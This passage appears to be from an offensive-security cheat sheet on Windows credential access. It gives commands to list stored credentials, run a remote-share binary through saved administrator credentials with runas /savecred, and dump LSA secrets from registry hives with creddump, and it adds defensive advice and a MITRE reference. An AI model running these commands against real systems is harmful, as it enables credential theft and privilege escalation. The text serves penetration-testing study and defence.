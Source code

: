 The hashcat mode is 2100

#### RunAs

[cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) Creates, lists, and deletes stored user names and passwords or credentials.

```bash
# List the stored credentials on the machine
cmdkey /list
```

If there is an administrator that is password are saved, we can leverage it.

```bash
runas /savecred /user:WORKGROUP\Administrator "\\IP\SHARE\BINARY.exe"
```

#### LSA Secrets

LSA Secrets are stored in the following registry key *HKEY_LOCAL_MACHINE/Security/Policy/Secrets*

By default only the SYSTEM account can access the LSA Secrets registry location.

Impacket suite contains a python script that can read the contents of these registry keys and decrypt the LSA Secrets password.

The Metasploit module to gather those hashes is *post/windows/gather/*

[creddump](https://github.com/CiscoCXSecurity/creddump7) is a python tool to extract various credentials and secrets from Windows registry hives.
It essentially performs all the functions that bkhive/samdump2, cachedump, and lsadump2 do, but in a platform-independent way.

It currently extracts:

- LM and NT hashes (SYSKEY protected)
- Cached domain passwords
- LSA secrets

```bash
./lsadump.py <system hive> <security hive>
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: Ensure that local administrator accounts have complex, unique passwords across all systems on the network.
- *Architecture*: Design an enterprise network that limits privileged account use across administrative tiers.

For more information about that technique refer to [T1003.004 - OS Credential Dumping: LSA Secrets](https://attack.mitre.org/techniques/T1003/004/)

#### LSASS

LSASS is a process in Microsoft Windows operating systems that is responsible for enforcing the security policy on the system.
It verifies users logging on to a Windows computer or server, handles password changes, and creates access tokens.
